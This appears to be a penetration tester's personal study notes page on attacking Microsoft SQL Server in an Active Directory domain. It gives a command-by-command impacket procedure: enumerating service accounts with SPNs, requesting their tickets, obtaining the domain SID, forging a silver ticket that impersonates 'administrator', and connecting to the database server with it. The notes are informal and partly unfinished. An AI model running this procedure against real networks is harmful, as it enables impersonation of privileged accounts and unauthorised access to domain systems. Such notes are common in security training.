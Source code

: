 # MSSQL

### **Enumerate MSSQL**

Let's check if there are users with SPNs on the found MSSQL servers

```bash
impacket-GetUserSPNs <DOMAIN MACHINE>/<USER>:<PASSWD>
```

<figure><img src="../.gitbook/assets/Pasted image 20230830104754.png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
IMPACKET-GetUserSPNS -target-domain <DOMAIN> <DOMAIN MACCHINE>/<USER>:<PASSWD>
```
{% endcode %}

<figure><img src="../.gitbook/assets/Pasted image 20230830110943.png" alt=""><figcaption></figcaption></figure>

### **Silver Ticket Attack**

To perform the silver ticket attack against the SQL service we need three things:

1. The NTLM hash of the password of the SqlSvc account. (TGT?)
2. The domain SID.

{% code overflow="wrap" %}
```basH
impacket-getPac -targetUser <USER> <DOMAIN>/<USER>:<PASS>
```
{% endcode %}

3. The SPN that the SqlSvc account is using.

{% code overflow="wrap" %}
```bash
GetUserSPNs.py <DOMAIN>/<USER>:<PASS> -k -dc-ip <DC> -no-pass -request
```
{% endcode %}

We can now proceed to obtain the silver ticket

{% code overflow="wrap" %}
```bash
impacket-ticketer -spn <User>/<Machine> -nthash <sqlsvc NTLM hash> -domain-sid <SID> -domain <Domain> administrator
```
{% endcode %}

<figure><img src="../.gitbook/assets/Pasted image 20230621120729.png" alt=""><figcaption></figcaption></figure>

Import the ticket

```bash
export KRB5CCNAME=administrator.ccache
```

If everything works with klist, you should see this

<figure><img src="../.gitbook/assets/Pasted image 20230621121052.png" alt=""><figcaption></figcaption></figure>

Connect to the machine

```bash
impacket-mssqlclient -k <macchina>
```

### crtp things
